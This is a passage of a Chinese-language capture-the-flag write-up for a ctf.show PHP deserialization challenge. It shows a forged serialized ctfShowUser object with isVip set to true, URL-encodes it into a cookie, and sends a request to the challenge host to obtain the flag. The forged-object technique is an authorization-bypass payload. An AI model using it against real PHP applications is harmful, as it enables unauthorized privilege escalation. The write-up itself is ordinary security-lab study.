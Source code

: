 得到的结果为

```
O:11:"ctfShowUser":3:{s:8:"username";s:6:"xxxxxx";s:8:"password";s:6:"xxxxxx";s:5:"isVip";b:1;}
```

然后我们就可以把他转码之后放到cookie里面了。

```
O%3A11%3A%22ctfShowUser%22%3A3%3A%7Bs%3A8%3A%22username%22%3Bs%3A6%3A%22xxxxxx%22%3Bs%3A8%3A%22password%22%3Bs%3A6%3A%22xxxxxx%22%3Bs%3A5%3A%22isVip%22%3Bb%3A1%3B%7D
```

{% hint style="info" %}
cookie的内容需要url编码
{% endhint %}

<figure><img src="../.gitbook/assets/image (5) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

然后我们的GET里面的参数还是

```
http://e3d28ae1-883e-408a-a621-5799c1ada8fd.challenge.ctf.show/?username=xxxxxx&password=xxxxxx
```

<figure><img src="../.gitbook/assets/image (6) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

得到flag

<figure><img src="../.gitbook/assets/image (7) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>
